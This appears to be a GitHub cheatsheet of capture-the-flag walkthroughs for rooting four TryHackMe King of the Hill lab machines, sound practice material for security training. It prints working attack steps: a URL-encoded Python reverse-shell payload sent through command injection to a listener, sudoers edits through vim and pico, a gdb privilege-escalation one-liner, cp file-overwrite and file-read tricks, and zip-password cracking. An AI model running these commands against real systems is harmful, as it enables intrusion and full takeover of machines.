 This a github cheatsheet of owning the machines in King of the Hill game of TryHackMe.


# Machine name: FOOD
NMAP scan with `-p-` revealed that there is a telnet running on port 46969. <br /> 

So following are the steps to get root, ASAP. <br /> 

1. Connect on the port: <br /> 
    `telnet <IP> 46969` <br /> 
2. The Username and password are in caesor cipher. <br /> 
    Username: food <br /> 
    Password: givemecookies <br /> 
3. After scanning the machine with linPEAS.sh, We found that `vim.basic` binary is vuln to read and write to privilaged files.
    `vim.basic /etc/sudoers` <br /> 
    Press i <br /> 
    Add this line after the line with `root` is the start. <br /> 
    `food ALL=(ALL:ALL) ALL` <br /> 
    Press Ctrl+[ <br /> 
    Press :w! Enter <br /> 
    Press :q! Enter <br /> 
    `sudo su` <br /> 
    In prompt enter the password of food, i.e.  `givemecookies` <br /> 
   #### YOU ARE ROOT. NOW DEFEND YOUR TITILE.
    


#  Machine name: SHREK

    
This is first and relatively easy machine, But beaware this things have too many entries to keep an eye on, Best Idea for defending this is by just killing the shells. Again I am not posting the methods that are 'technically' better, I am posting methods that will be easiest to do and will get you win.
Target is to win while being inside the rules. This is not an exam, there are no wrong answers.
As the saying goes, *If it works, don't touch it.*

1. Initial gobuster scan revealed that `robots.txt` file contains an abnormal entry, When we navigate to it, we find the entire RSA key.

![image](https://user-images.githubusercontent.com/54495695/81495768-495e6f80-92d0-11ea-8ab8-daab1abe3cf3.png)

2. Copy the key, paste it in a file, give the file necessary permissions.<br />
Assuming you made the RSA key file with the name `id_rsa`, follow these commands.<br />
`chmod 600 id_rsa`<br />
`ssh -i id_rsa shrek@<IP ADDRESS OF MACHINE>`<br />
This will give you a shell to shrek.<br />

3. After scanning the machine with linPEAS.sh, We found tha there is a gdb vulnerabilty in the box, using GTFObins, We use the following commands to do Privilage escalation.<br />
`gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit`<br />
  #### YOU ARE ROOT. NOW DEFEND YOUR TITILE.<br />
    
#  Machine name: SPACE JAM

This machine is race to root kind of thing, There is a very low hanging fruit to get root, But it is a way use only entry, i.e. Whoever uses it first will try his best to destory this entry as it is too open. <br />

1. As always we do the basic nmap scan.<br />
![image](https://user-images.githubusercontent.com/54495695/81496158-2a151180-92d3-11ea-9d72-110073c4fbac.png)

2. We can see port 3000 is hosting Nodejs openly, So we try to get the reverse shell from it.<br />
    To do that, First start a listener on your machine using these commands:<br />
       `ncat -lvnp 4444` // I am using ncat, since I am on a Arch based system, You can use `nc` inplace of ncat.<br />
     Once the listener is ready, we deploy the payload.<br />
3. After testing many payloads we found the one of python to be working, For more payloads, follow this link.<br />
    The payload:<br />
           REPLACE <REMOTE_IP> with the IP of box.<br />
           REPLACE <LOCAL_IP> with the IP of your tryhackme VPN.<br />
   
        curl "<REMOTE_IP>:3000/?cmd=python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22<LOCAL_IP>%22%2C4444%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D%29%3B%27"

    On listener, you can see that we have a shell now.<br />
   
 4. After trying a lot of tests and linPEAS, I found that the easiest method to get king AND root shell is to exploit the `cp` vulnerability on the box. I am leaving the ideas to you for this one, but after making you king.<br />
 
    `LFILE=/root/king.txt`<br />
    `echo "<YOUR USERNAME>" | cp /dev/stdin "$LFILE"`<br />
#### YOU ARE KING. NOW DEFEND YOUR TITILE.<br />
Free Tip: (You know you can read anyfile with this vuln, use your imagination.)<br />
    `LFILE=file_to_read`<br />
    `cp "$LFILE" /dev/stdout`<br />

#  Machine name: FORTUNE

Now this is new machine, Released very recently, 
And made it hard for me to post direct commands, Why?
Heres why, In this machine, there's a thing called autogen script, that regenrates everything at every reset. That means direct credentials doesn't work anymore. So you have to follow the instructions and do everything manually.
Let's Hack:


1. Initial nmap scans revealed that theres a netcat port open at 3333. 
    ![image](https://user-images.githubusercontent.com/54495695/81497074-b9252800-92d9-11ea-9e85-e727773fc41c.png)

2. When we connect to it, It gives out a weird base64 hash, After fiddling around, I found that it is base data of a zip file, so we use this [Site](https://base64.guru/converter/decode/file).
    Copy the base64 hash to this site, and it will generate a file named application.zip.
    
3. Now when we try to open the file, The file needs a password, Just crack this file using fcrackzip and wordlist rockyou.txt.
    `fcrackzip -v -u -D -p ~/wordlists/rockyou.txt application.zip`
   Once you have the password, unzip it.
   `unzip application.zip`
   You get a file named creds.txt, Inside it we have the login details of user named `fortuna`. Lets GO.
4. Using the creds, 
    `ssh fortuna@<BOX IP>`
5. Now that we have the shell, We can work on Privilage escalation.
    After linpeas and basic test, I found that:
        5.1 We as fortuna are in sudoers list.
        5.2 And we also have `pico` in the `sudo -l` list.
        
6. We can simply edit the `/etc/sudoers/` file to give us ALL permissions to run sudo.
7. Using this command:
    `sudo pico /etc/sudoers`
   Replace `pico` in sudoers file with `ALL`.
8. Now you can just do, `sudo su` and you are root.

#### You are ROOT, now defend your title.
   
   

